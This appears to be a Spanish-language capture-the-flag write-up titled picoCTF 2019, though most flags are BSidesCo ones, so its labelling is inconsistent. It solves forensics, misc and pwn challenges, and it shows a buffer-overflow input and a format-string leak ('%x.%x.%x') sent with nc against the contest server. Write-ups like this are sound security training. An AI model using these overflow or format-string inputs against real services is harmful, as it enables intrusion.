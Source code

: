 # picoCTF 2019


 - [picoCTF CTF 2019](#bsidesco-2019)
   - [Forensics](#forensics)
     - [like1000](#like1000)
     - [Robando Secretos Antiguos 1](#robando-secretos-antiguos-1)
     - [Exorcismo 1](#exorcismo-1)
   - [misc](#misc)
     - [Pasado](#pasado)
   - [pwn](#pwn)
     - [Incontinencia](#incontinencia)
     - [Magia magia](#magia-magia)
   - [web](#web)



## Forensics

### like1000

This .tar file got tarred alot. Also available at /problems/like1000_0_9b2adbe4c49cbb2e2ca9bb5926448dfe.

La pista del reto es: 
**Try and script this, it'll save you alot of time**

```console
for i in echo {1000..1..1} 
do tar xf $i.tar
done
```
La flag es: 

**_picoCTF{l0t5_0f_TAR5}_**


### Robando Secretos Antiguos 1

El reto dice **_Un amigo logró robar un secreto pero necesitamos alguien que lo descifre._** y ofrece dos archivos **mensaje** y **secreto_4w0rH5o**

Revisando los dos archivos conocemos que **mensaje** es data y  **secreto_4w0rH5o** es una llave privada RSA

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$file mensaje                  
mensaje: data
```

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$file secreto_4w0rH5o                  
secreto_4w0rH5o: PEM RSA private key
```

Usando OpenSSL podemos decifrar el mensaje


```console
oscar@asgard:~/WORKSPACE/ctf/bsides$openssl rsautl -decrypt -in mensaje -out mensaje.txt -inkey secreto_4w0rH5o                  
```
Revisando el contenido de **mensaje.txt** encontramos la bandera:

**_BSidesCo{uN_s3Cr3T0_P0c0_S3cR3t0}_**

### Exorcismo 1

En este reto nos dan el archivo **secreto**

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$cat secreto 
010100000011001001001010011011000110001001101100010011000111010101000111001101000110001000110000011100100011000001010000011011000110011101111010010010010111010001011010011000100011000101100111001100100110011101001011011100000100110001000111

000100100110000100100011000010000000011100011111000011110001101000111100010101110011000001001001000000100110010001100000001100110000010001001110001001010100011100110100000101100000010100001010000000110000001000100101000001000111110000111010
```

La pista del reto es: **_eXORcismo, así o más explícito? ;)_**

Usando una [calculadora XOR online](https://xor.pw/) con los dos bloques como input y calculando la salida como ASCII(base 256) se obtiene la bandera:

**_BSidesCo{cRypT0_c4l3nt4m1ent0}_** 

## misc

### Pasado

El reto nos pide la URL del formulario que se debía llenar para proponer una charla para el BSidesCo del año 2016.

La pista del reto es: **_La bandera no sigue el formato, es la URL._**

Buscando en [Way Back Machine](https://web.archive.org/) la url _bsidesco.org_ se puede ver un snapshot del sitio del 20 de junio de 2016.

En el link **Enviar Paper** se puede encontrar la URL del form.

**_https://bsidesco.typeform.com/to/qKrnSF_** y esa es la bandera

## pwn

### Incontinencia

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$python -c "print 'Y'*10" | nc -v retos.bsides.ctf.co 
Connection to retos.bsides.ctf.co 31332 port [tcp/*] succeeded!
====================|==|====================
SERVICIO DE CORREO SIN MEDIDA
Usuario     : Rodolfo
Bandeja     : 1 nuevo correo
====================|==|====================

Se requiere una clave para observar el correo...
ADVERTENCIA: SE RECOMIENA UNA CLAVE DE 7 DIGITOS
Entre su clave: 
Cargando la bandeja...

Email 1: From (sedisb@anon44f8zh7c8a.onion)
-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA1
I'll be sending out invitations shortly. Will most likely host
the recruitment site on the dark web. Was wondering if you had
any good suggestions for the recruitment challenge. Thanks.
-----BEGIN PGP SIGNATURE-----
Version: GnuPG v3.3.7 (MingW32)
iD8DBQFFxqRFCMEe9B/8oqEaE5RtJ91Tx4RziVzY4eR4Ms4MFsKAMqOoQCgg7y6
e5AJIRuLUIUikjNWQIW63QE=
=aAhr
-----END PGP SIGNATURE-----
Email 1: End

BSidesCo{GO0O0O0v3rfl0W}
oscar@asgard:~/WORKSPACE/ctf/bsides$
```

La bandera es:

**_BSidesCo{GO0O0O0v3rfl0W}_**

### Magia magia

```console
oscar@asgard:~/WORKSPACE/ctf/bsides$nc -v retos.bsides.ctf.co 31333
Connection to retos.bsides.ctf.co 31333 port [tcp/*] succeeded!
Prueba que eres mago y lees mentes!
Primero dime tu nombre (hasta 10 letras): 
%x.%x.%x
Estoy pensando un numero entre 0 y 1000000, puedes decirme cual es?
a192a284.5db.7433f
has tu prediccion: 475967
Sorprendente! Aca esta la bandera: BSidesCo{m4gi4_MAG1a-b5G_BU6}

oscar@asgard:~/WORKSPACE/ctf/bsides$
```

La bandera es:

**_BSidesCo{m4gi4_MAG1a-b5G_BU6}_**


## web
